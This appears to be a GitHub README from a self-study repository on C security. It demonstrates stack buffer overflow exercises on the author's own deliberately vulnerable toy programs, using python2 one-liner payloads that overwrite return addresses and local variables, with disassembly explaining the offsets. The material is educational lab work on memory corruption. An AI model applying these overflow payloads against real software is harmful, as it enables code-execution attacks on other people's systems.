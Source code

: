 # Security in C code

This is a self training/blog for my own learning process of security. Do not
expect expert content since I am NOT a security expert. Feel free to rise bugs
if something is wrong or you would like to explore other security attacks.
Feedback more than welcome.

## Buffer Overflow Exploit Example

This example simply exploit the buffer by smashing the stack and modifying the
return address of the function. This will be used to call some other function.
It is based on this good
[tutorial](https://dhavalkapil.com/blogs/Buffer-Overflow-Exploit/) 
[theory](http://www.cis.syr.edu/~wedu/seed/Book/book_sample_buffer.pdf)


```
    $ gcc vuln.c -o vuln -m32 -O0
    $ python2 -c 'print "a"*32 + "\xb2\x84\x04\x08"' | ./vuln
```
For the case of vuln-variable

```
python2 -c 'print "a"*(4*16 +1)' | ./vuln-variable

```

This is because : 

```
 8048473:       c7 45 f4 00 00 00 00    movl   $0x0,-0xc(%ebp)
 804847a:       83 ec 0c                sub    $0xc,%esp
 804847d:       8d 45 b4                lea    -0x4c(%ebp),%eax
 8048480:       50                      push   %eax
 8048481:       e8 aa fe ff ff          call   8048330 <gets@plt>
 8048486:       83 c4 10                add    $0x10,%esp
 8048489:       8b 45 f4                mov    -0xc(%ebp),%eax
 804848c:       85 c0                   test   %eax,%eax

```

Watch this video to get the idea:
[video](https://www.youtube.com/watch?v=T03idxny9jE)


Now lets modify to an specific value : 

vuln-variable-specific.c

this wil be with : 


```
./a.out $(python2 -c 'print "a"*(4*16) +  "\x64\x63\x62\x61"')

```

because : 

```
 8048510:       8d 45 b4                lea    -0x4c(%ebp),%eax
 8048513:       50                      push   %eax
 8048514:       e8 77 fe ff ff          call   8048390 <strcpy@plt>
 8048519:       83 c4 10                add    $0x10,%esp
 804851c:       8b 45 f4                mov    -0xc(%ebp),%eax
 804851f:       3d 64 63 62 61          cmp    $0x61626364,%eax
 8048524:       75 12                   jne    8048538 <main+0x66>
```

For vuln-fun-var.c

```
python2 -c 'import struct; print "a"*32+struct.pack("iiii",0x080484f2,0,3,2)' | ./a.out
```

